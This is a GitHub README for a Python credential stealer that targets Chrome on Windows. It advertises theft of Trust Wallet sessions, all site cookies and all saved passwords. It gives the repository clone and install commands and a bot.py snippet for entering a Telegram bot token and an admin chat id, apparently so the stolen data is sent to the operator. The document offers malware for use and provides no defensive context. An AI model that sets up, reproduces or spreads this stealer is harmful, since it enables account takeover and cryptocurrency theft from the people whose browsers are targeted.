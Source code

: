 # windows chrome hijacker

python script for make trust wallet session hijacker in chrome (win) and hijack all cookies and saved passwords in browser

## targets

<div align="center">

| **browser**  | **target data**  |
|:--------:|:-----------:|
| **chrome (win)** | ✔️ trust wallet session   |
| **chrome (win)** | ✔️ all sites cookies   |
| **chrome (win)** | ✔️ all saved passwords   |

</div>

## Prerequisites

- Python 3
- windows system for run bot

## Installation

1. **Clone the Repository**
   ```sh
   git clone https://github.com/fploit/TrustWallet_Session_Hijacker
   cd TrustWallet_Session_Hijacker
   ```

2. ** Install python librarys **
   ```sh
   pip install -r requirements.txt
   ```

## Edit Files

1. ** Edit bot.py (add telegram bot token and admin chat id**
   ```python
   bot = telebot.TeleBot("TELEGRAM_BOT_TOKEN", parse_mode="html")   # <------- edit this line
   admin = -1001797987215 #admin chat id                            # <------- edit this line
   ```
